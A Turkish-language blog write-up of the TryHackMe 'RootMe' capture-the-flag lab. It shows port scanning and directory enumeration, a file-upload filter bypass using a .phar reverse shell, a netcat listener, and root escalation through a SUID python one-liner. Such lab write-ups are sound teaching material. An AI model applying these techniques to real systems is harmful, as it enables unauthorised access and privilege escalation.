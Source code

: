 ```yaml
---
title: 'TryHackMe | RootMe WriteUp'
author: appdone
categories: [TryHackMe]
render_with_liquid: false
media_subpath: /images/tryhackme_rootme/
image:
  path: logo.webp
---
```


Merhaba, bu yazıda TryHackMe platformunda yer alan "RootMe" isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
$ nmap -sSVC --min-rate 1000 10.10.53.233
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-15 11:24 EDT
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 (SSH) ve 80 (HTTP) numaralı portların açık olduğunu öğreniyoruz. Servislerin sürümlerinden yola çıkarak hiçbir şey yapamayacağımızdan doğrudan web uygulamasına yöneleceğiz.

Web sitesinin ana sayfasında önemli bir bilgi bulunmuyor. Daha fazla dosya ve dizin bulmak için Dirsearch aracını kullanacağım.

```console
$ dirsearch -u http://10.10.53.233
...
[11:26:55] 301 -  310B  - /css  ->  http://10.10.53.233/css/
[11:27:08] 200 -  464B  - /js/
[11:27:18] 200 -  388B  - /panel/
[11:27:37] 200 -  405B  - /uploads/
...
```

Tarama sonucunda panel ve uploads olmak üzere iki dizin keşfediyoruz. Panel dizininde bir login sayfası bulunuyor. Uploads dizininde ise adından da anlaşılacağı üzere yüklenen dosyalar bulunuyor.

![file upload](1.webp){: width="1200" height="600" }

Panel dizinindeki form'a php ile yazılmış olan reverse shell dosyasını yüklemeye çalıştığımda php dosyalarının yasaklı olduğunu öğreniyorum. Dosya adını sürekli değiştirerek sayfayı yüklemeye çalıştığımda .phar dosyalarının sorunsuzca yüklendiğini anladım.

![file upload](2.webp){: width="1200" height="600" }

Dosyayı yükledikten sonra uploads dizininde olup olmadığını kontrol ettim. Daha sonra 1234 numaralı portu netcat ile dinlemeye aldım ve dosyayı çalıştırdım.

```console
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.53.233] 46542
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:36:02 up 13 min,  0 users,  load average: 0.01, 0.07, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Bağlantıyı aldıktan sonra user.txt dosyasını bulmak için dizinleri gezmeye başladım ve /var/www dosyasında olduğunu gördüm.

```console
www-data@rootme:/var/www$ cat user.txt
THM{***}
www-data@rootme:/var/www$
```

Son olarak yetki yükselterek son bayrağı almamız gerekiyor. SUID bitine sahip dosyaları listeledikten sonra python dosyasını sahibi olan root kullanıcısı adına çalıştırabileceğimi gördüm.

```console
www-data@rootme:/var/www$ find / -perm -4000 2>/dev/null
...
/usr/bin/python
...
```

Bundan sonra yapmamız gereken tek şey "-c" parametresi ile os modülünü kullanarak bash'e geçmektir. Root haklarında çalışacağı için yetki yükseltmiş olacağız.

```console
www-data@rootme:/var/www$ python -c "import os;os.system('bash')"
www-data@rootme:/var/www$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
root.txt
# cat root.txt
THM{***}
```

Yetki yükselttikten sonra /root dizininden son bayrağı aldım. Bu arada resimde gördüğünüz ilk komutu girdikten sonra yetki yükseltemedim. Tekrar denemek için yukarı ok işaretini kullanarak aynı komutu seçtiğimde kendisi otomatik olarak komutu düzenledi. Böyle bir şey ile ilk defa karşılaşıyorum. Neden olduğu konusunda bir fikrim yok.
